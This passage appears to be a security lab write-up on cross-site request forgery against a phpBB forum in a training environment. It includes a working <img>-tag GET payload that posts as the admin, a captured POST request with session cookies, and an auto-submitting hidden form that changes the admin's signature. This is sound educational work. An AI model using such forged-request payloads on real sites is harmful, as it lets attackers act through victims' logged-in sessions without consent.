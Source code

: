 By observing the URL, we find following interesting parameters:
- `subject`: the title of the post
- `message`: the content of the post
- `topictype`: 0 for normal post

Now we try to construct a GET request to create a post using ``<img>`` element. And we include this evil image in our page hosted at www.CSRFLabAttacker.com. To modify that page, we edit ``/var/www/CSRF/Attacker/index.html`` and insert this `<img>` tag inside body block.
```html
<img src="http://www.csrflabphpbb.com/posting.php?subject=I%20am%20attacker&message=I%20am%20evil%20and%20I%20can%20do%20anything.&topictype=0&mode=newtopic&f=1&post=Submit"/>
```

Now we perform as the ``admin`` who some how visited the attacker's malicious webpage (http://www.CSRFLabAttacker.com). Then his browser will render the `<img>` tag and then send a GET request with URL set by `src` attribute along with ``admin``'s cookies. As expected, we see the new post created by `admin` in the forum without his approval.

![Evil Post][evilpost]

### Task 2: Attack in HTTP POST request
As before, we login as `admin` and then intercept HTTP request data while we modify the profile. 

This is the POST request for editing user's profile:
```HTTP
POST /profile.php HTTP/1.1
Host: www.csrflabphpbb.com
Content-Length: 440
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Origin: http://www.csrflabphpbb.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.87 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Referer: http://www.csrflabphpbb.com/profile.php?mode=editprofile&sid=b19c3b59ded8db686bdaedca495bb39e
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.8,zh-CN;q=0.6,zh;q=0.4
Cookie: phpbb2mysql_data=a%3A2%3A%7Bs%3A11%3A%22autologinid%22%3Bs%3A0%3A%22%22%3Bs%3A6%3A%22userid%22%3Bs%3A1%3A%222%22%3B%7D; phpbb2mysql_sid=b19c3b59ded8db686bdaedca495bb39e
Connection: close

username=admin&email=admin%40seed.com&cur_password=admin&new_password=newpwd&password_confirm=newpwd&icq=&aim=&msn=&yim=&website=&location=&occupation=&interests=&signature=&viewemail=1&hideonline=0&notifyreply=0&notifypm=1&popup_pm=1&attachsig=0&allowbbcode=1&allowhtml=0&allowsmilies=1&language=english&style=1&timezone=0&dateformat=d+M+Y+h%3Ai+a&mode=editprofile&agreed=true&coppa=0&user_id=2&current_email=admin%40seed.com&Submit=Submit
```

To forge the POST request and change user's signature, attacker can modifies his malicious page `/var/www/CSRF/Attacker/index.html` with following contents:
```HTML
<html>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/1.12.0/jquery.min.js"></script>
<form method="POST" action="http://www.csrflabphpbb.com/profile.php">
<input type="hidden" name="username" value="admin"/>
<input type="hidden" name="email" value="admin@seed.com"/>
<input type="hidden" name="signature" value="I am stupid"/>
<input type="hidden" name="mode" value="editprofile"/>
<input type="hidden" name="user_id" value="2"/>
<input type="hidden" name="Submit" value="Submit"/>
</form>
<script>
$("form").submit();
</script>
</html>
```
When `admin` visits this malicious page, his signature was modified to *"I am stupid"*.
